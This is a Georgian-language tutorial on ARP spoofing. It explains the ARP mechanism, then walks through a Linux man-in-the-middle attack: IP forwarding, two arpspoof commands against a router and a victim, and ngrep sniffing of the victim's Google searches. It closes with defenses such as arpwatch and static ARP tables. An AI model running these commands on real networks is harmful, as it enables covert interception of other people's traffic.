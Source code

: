 # თეორია

აგრეთვე ცნიბილი როგორც Arp Poisoning-ი.
ამ თავდასხმის მომქმედების გაგებისთვუს საჭიროა ჯერ იცოდეთ როგორ მოქმედებს ARP პროტოკოლით (Address Resolution Protocol) MAC მისამართის დადგენა.

შემდეგი არის ტიპიუი სცენარი, ARP პროტოკოლის მეშვეობით MAC მისანართის დადგენის:
  - კომპიუტერ A-ს უნდა რომ დაუკავშირდეს სერვერს რომლის IP მისამართი მან იცის.
  - კოპიუტერი A ჯერ თავის ARP ქეშში ეძებს თუ შიგ არის დაფიქსირებული ეგ IP მისამართი.
  - თუ IP მისამართი დაფიქსირებულია (ქეშშია), მაშინ კომპიუტერი A იხმარს სათანადო MAC მისამართს.
  - თუ IP მისამართი არ არის დაფიქსირებული (ქეშში არ არის), მაშინ კომპიუტერი A ლოკალურ ქსელში გააგზავნის ARP request-ს broadcast (ლოკალურ ქსელში ყოველივე კომპიუტერს მიუვა) რეჟიმში.
  - ლოკალურ ქსელში მყოფ ყოველ კომპიუტერს მიუვიდა ARP request-ი (მათ შორის სერვერსაც რახან იგი ლოკალურ ქსელშია) და სერვერი პასუხობს
(unicast რეჟიმში. ანუ პასუხი მხოლოდ კომპიუტერ A-ს მიუდის და არა ყველას) : "მაგ IP მისამართით კომპიუტერს რომ ეძებთ ეგ მე ვარ, ჩემი MAC
მისამართია…". და შედეგი შენახული იქნება ARP ქეშში.

ეს ყველაფერი ლამაზი კია მაგარამ ეს მაქანიზმი სისუსტეს შეიცავს.
თუ მოვინდომეთ რომ კომპიუტერ A-სგან კომპიუტერ B-თან გაგაზავნილი ტრაფიკი მივითვისოთ მაშინ კომპიუტერ A-ს უნდა ვაგონოთ რომ ჩვენ ვართ კომპიუტერი B და კომპიუტერ B-ს კი უნდა ვაგონოთ რომ ჩვენ ვართ კომპიუტერი A.
ეს ხდება ARP request-ების გაგზავნით ისე რომ მაგ ორ კომპიუტერის ქეშში არსებული ინფორმაცია შეუცვალოთ და მაშასადამე ჩვენ რასაც გვინდა დავეჯერებთ:

  - A-ს ქეშში იქნება B-ს IP მისამართი და ჩვენი MAC მისამართი;
  - B-ს ქეშში იქნება A-ს IP მისამართი და ჩვენი MAC მისამართი.

ამიშ შემდეგ შეგვეძლება რომ ორ კომპიუტერის "შუაში ჩავდგეთ" ტრაფიკს უთვალთვალოთ ან საერთოთ შევცვალოთ.


# პრაქტიკა (ლინუქსში)

ვთქვათ ლოკალურ ქსელში ვართ, მოგახსენებთ ინფორმაციას სამი კომპიუტერ/მოწყობილობის შესახებ.

ADSL როუტერი:
IP მისამართი: 192.168.0.1
MAC მისამართი: 00:40:F4:8E:4B:85

მსხვერპლი:
IP მისამართი: 192.168.0.84
MAC მისამართი: 00:10:A7:0C:E8:BF

ჩვენი კომპიუტერი (თავდამსხმელი):
IP მისამართი: 192.168.0.56
MAC მისამართი: 00:0C:76:81:AC:33

როუტერში და მსხვერპლის კომპიუტერში არაფერი არ არის გასაკეთებელი, რაც იქნება მაგალითად მოცემული ხდება მხოლოდ თავდამსხმელის კომპიუტერიდან, root მომხმარებლად.
ვხსნით სამ შელს.

**ეტაპი 1:**

ვიწყებთ IPv4 forwarding-ის გააქტიურებით:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

ან

```
sysctl -w net.ipv4.ip_forward=1
```

**ეტაპი 2:**

პირველ შელში:

ვიყენებთ arpspoof-ს (რომელიც dsniff-ს პაკეტს მოყვება) რომ 192.168.0.1-ს დავაჯეროთ რომ 192.168.0.84-ის ინტერფეისი გვაქვს:

```
bash-3.1# arpspoof -i eth0 -t 192.168.0.1 192.168.0.84
0:c:76:81:ac:33 0:40:f4:8e:4b:85 0806 42:
    arp reply 192.168.0.84 is-at 0:c:76:81:ac:33
0:c:76:81:ac:33 0:40:f4:8e:4b:85 0806 42:
    arp reply 192.168.0.84 is-at 0:c:76:81:ac:33
```

**ეტაპი 3:**

მეორე შელში:

192.168.0.84-ს ვაჯერებთ რომ ჩვენ ვართ 192.168.0.1-ი:

```
bash-3.1# arpspoof -i eth0 -t 192.168.0.84 192.168.0.1 
0:c:76:81:ac:33 0:10:a7:0c:e8:bf 0806 42:
    arp reply 192.168.0.1 is-at 0:c:76:81:ac:33
0:c:76:81:ac:33 0:10:a7:0c:e8:bf 0806 42:
    arp reply 192.168.0.1 is-at 0:c:76:81:ac:33
```

**ეტაპი 4:**

მესამე შელში:

ტრაფიკს ვუთვალთვალებთ, გვინდა რომ ვნახოტ ვინ რას ეძებს google-ში ლოკალური ქსელიდან.

```
bash-3.1# ngrep "GET /search" "host 192.168.0.84"
```

**დაკვირვება:**
arpspoof-ის -t (target, მიზანი) ნიშნავს რომ მსხვერპლი მარტო ერთია დაკვირვება და მხოლოდ ის ვინც მითითებულია, -tს გარეშე ლოკალურ ქსელში მყოფი ყოველი კომპიუტერი გახდებოდა მსხვერპლი და მთელი ტრაფიკი ჩვენს კომპიუტერს გაივლიდა. ამ შემთხვევაში მხოლოდ ერთი მსხვერპლის ARP ქეშს ვაყალბებთ.

192.168.0.84-ის ARP ქეშის ნახვა შეგვიძლია arp ბრძანების მეშვეობით:

```
bash-3.1# arp -n
Address        HWtype        HWaddress        Flags Mask    Iface
192.168.0.1    ether        00:c:76:81:ac:33        C        eth0
```


**პოსტ სკრიპტუმ**

ასევე საჭიროა iptables firewall-ში გავხსნათ IPv4 masquerading მოქმედი ინტერფეისისთვის.

# დაცვა

ARP Spoofing-ის განხორციელების დროს მისი შემჩნევა ძნელია, მაგრამ თუ თავდასხმა ხანგძლივია მისი შემჩნევა უფრო ადვილია.
ფაქტი რომ იტერფეისი იცვლის MAC მისამართს არ არის ნორმალური გარდა იმ შემთხვევაშუ თუ ახალი კომპიუტერა შეურთეს ქსელში ან ინტერფეისი შეცვალეს ან ახალი მისამართები მიუნეჭეს.

  * arpwatch:
არის პროგრამა arpwatch რომელიც IP და MAC მისამართების ცვლილებებს ტვალს ადევნებს და შეუძლია ARP Spoofing-ის შემჩნევა, მისამართების ცვლილებებს გიგზავნით კიდევაც ელ.ბარათში.

  * სტატიკური IP/MAC მასივი:
მეორე საშუალებაა რომ IP/MAC მისამართების ტყვილები სტატიკურად (რომ დინამიკურად არ შეიცვალოს) დაამყაროთ მაგრამ ყოველივე ცვილება თვენივე ხელებიტ უნდა აკრიფოთ.
